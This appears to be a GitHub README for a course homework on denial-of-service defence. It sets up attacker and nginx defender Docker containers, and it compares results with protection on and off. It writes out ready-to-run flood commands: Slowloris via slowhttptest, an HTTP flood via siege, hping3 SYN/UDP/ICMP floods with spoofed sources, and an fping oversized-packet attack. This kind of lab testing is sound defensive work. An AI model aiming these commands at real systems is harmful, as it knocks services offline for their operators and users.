






# Homework #16 for Highload:Projector

### Fuck the Hack :)

Setup two docker containers:
- attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)
- Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection


## Installation

```
git clone https://github.com/god-of-north/highload-homework-16.git
cd highload-homework-16
docker-compose build
```


## Attacker Tools

Enter to the ```attacker``` container to run attacker tools 
```
docker-compose run attacker bash
```

**Tools:**
- http-flood.sh - *HTTP Flood*
- icmp-flood.sh - *ICMP Flood*
- ping-of-death.sh - *Ping of Daeth*
- set-backend.sh - *Setting target as __unprotected__ NGINX server*
- set-defender.sh - *Setting target as __protected__ NGINX server*
- slowloris.sh - *Slowloris*
- syn-flood.sh - *SYN Flood*
- udp-flood.sh - *UDP Flood*


## Testing

### Slowloris
```
slowhttptest -c 2000 -H -g -o slowhttp -i 10 -r 200 -t GET -u ${TARGET_URL} -x 24 -p 3
```

Attack on NGINX server with DDoS protection **enabled**:
```
initializing:        0
pending:             0
connected:           571
error:               0
closed:              1429
service available:   YES
```

Attack on NGINX server with DDoS protection **disabled**:
```
initializing:        0
pending:             0
connected:           1029
error:               0
closed:              971
service available:   NO
```

```
curl -XGET http://localhost:5050
curl: (52) Empty reply from server
```

### HTTP Flood
```
siege -b -c 250 -t 3m ${TARGET_URL}
```

Attack on NGINX server with DDoS protection **enabled**:
```
{       "transactions":                         6656,
        "availability":                        80.05,
        "elapsed_time":                       179.78,
        "data_transferred":                   163.25,
        "response_time":                        0.36,
        "transaction_rate":                    37.02,
        "throughput":                           0.91,
        "concurrency":                         13.16,
        "successful_transactions":              6656,
        "failed_transactions":                  1659,
        "longest_transaction":                  2.91,
        "shortest_transaction":                 0.00
}
```

Attack on NGINX server with DDoS protection **disabled**:
```
{       "transactions":                       101967,
        "availability":                        99.59,
        "elapsed_time":                       179.61,
        "data_transferred":                  2914.89,
        "response_time":                        0.29,
        "transaction_rate":                   567.71,
        "throughput":                          16.23,
        "concurrency":                        161.81,
        "successful_transactions":            101988,
        "failed_transactions":                   420,
        "longest_transaction":                 16.18,
        "shortest_transaction":                 0.00
}
```

**Comparision**

Network Usage

  

Network Packets

  

Load

  

CPU

  

Disk I/O

  

Nginx Connections

  


### ICMP Flood
```
hping3 --flood --rand-source -1 -p ${TARGET_PORT} ${TARGET_IP}
```

### Ping of Daeth
```
fping -b 65500 ${TARGET_IP}
```

### SYN Flood
```
hping3 -c 20000 -d 120 -S -w 64 -p ${TARGET_PORT} --flood --rand-source ${TARGET_IP}
```

### UDP Flood
```
hping3 --flood --rand-source --udp -p ${TARGET_PORT} ${TARGET_IP}
```
